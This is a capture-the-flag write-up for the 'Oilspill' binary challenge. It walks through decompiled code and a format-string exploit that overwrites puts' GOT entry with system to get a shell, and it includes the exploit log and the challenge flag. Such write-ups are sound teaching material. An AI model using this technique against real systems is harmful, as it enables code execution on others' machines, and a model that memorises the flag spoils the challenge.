 # Oilspill

Tooking at the decompiled C in `ghidra`, it is immeadiately obvious this is a format string attack.

```c
undefined8 main(undefined8 param_1,undefined8 param_2) {
    undefined8 in_R9;
    long in_FS_OFFSET;
    char local_148 [312];
    long local_10;

    local_10 = *(long *)(in_FS_OFFSET + 0x28);
    printf("%p, %p, %p, %p\n",puts,printf,local_148,temp,in_R9,param_2);
    puts("Oh no! We spilled oil everywhere and its making everything dirty");
    puts("do you have any ideas of what we can use to clean it?");
    fflush(stdout);
    fgets(local_148,300,stdin);
    printf(local_148);
    puts("Interesting Proposition");
    fflush(stdout);
    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```
`checksec` shows that it is a static binary with no relro, meaning we can overwrite the GOT pointers.
```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

To perform this attack, we take advantage of the `%n` format specifier which takes a pointer and writes the current number of characters written so far into the pointer. A more in depth explanation of format string exploits can be found [here](https://cs155.stanford.edu/papers/formatstring-1.2.pdf).<br>

Looking at the dockerfile shows they are running ubuntu 18.04, and the version of libc shipped with it is 2.27. The binary helpfully leaks the dynamic address of puts and printf which can be used along with libc.so.6 to calculate the libc base address. In order to exploit this binary to get a shell, the vulnerable printf is used to overwrite the GOT pointer of `puts` with the address of `system`. The first 8 bytes of "Interesting Proposition" will be overwritten with "/bin/sh\x00". After the printf is called, puts (now system) is called with "/bin/sh\x00" and gives us a shell.
```
[+] Opening connection to oil.sdc.tf on port 1337: Done
[*] '/home/runner/nothingtosee/OILSPILL/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/runner/nothingtosee/OILSPILL/oilspill'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
FILE PUTS ADDRESS: 0x600c18
DYNAMIC PUTS ADDRESS: 0x7fdd3a402970
DYNAMIC PRINTF ADDRESS: 0x7fdd3a3e6e40
LIBC PUTS OFFSET: 0x80970
LIBC ADDRESS: 0x7fdd3a382000
b'0x400677\nOh no! We spilled oil everywhere and its making everything dirty\ndo you have any ideas of what we can use to clean it?\n'
[*] Switching to interactive mode
$ ls
OilSpill
flag.txt
$ cat flag.txt
sdctf{th4nks_f0r_S4V1nG_tH3_duCk5}
```
## Flag: sdctf{th4nks_f0r_S4V1nG_tH3_duCk5}